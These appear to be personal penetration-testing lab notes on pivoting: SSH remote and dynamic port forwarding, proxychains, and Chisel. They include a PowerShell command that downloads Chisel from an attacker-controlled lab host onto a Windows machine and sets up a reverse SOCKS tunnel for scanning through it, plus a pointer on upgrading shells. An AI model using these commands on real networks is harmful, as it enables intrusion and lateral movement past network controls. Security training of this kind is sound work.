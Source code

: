 

#### Remote Port Forward

```
ssh -N -R [bind_address:]port:host:hostport [username@address]
	- bind_address		# remote address
	- host				# local address/127.0.0.1/0.0.0.0

ssh -N -R 10.11.0.4:2221:127.0.0.1:3306 kali@10.11.0.4
```



#### Dynamic Local Port Forwarding

```
ssh -N -D <address to bind to>:<port to bind to> <username>@<SSH server address>
```

```
proxychains4 xxx
```



#### Dynamic Remote Port Forwarding





### Chisel

```
iwr -uri http://192.168.45.170/Tools/Tunnelling/chisel_1.8.1_windows_amd64 -Outfile chisel_1.8.1_windows_amd64

powershell -c "iwr -uri http://192.168.45.170/Tools/Tunnelling/chisel_1.8.1_windows_amd64 -Outfile chisel_1.8.1_windows_amd64"
```



```
1. kali: chisel server -p 9999 --reverse
2. kali: modify proxychains entry - 9000
3. 121-win: chisel_1.8.1_windows_amd64 client 192.168.45.170:9999 R:9000:socks
4. kali: proxychains nmap localhost
```









upgrade shell

- https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

- socat/pwncat
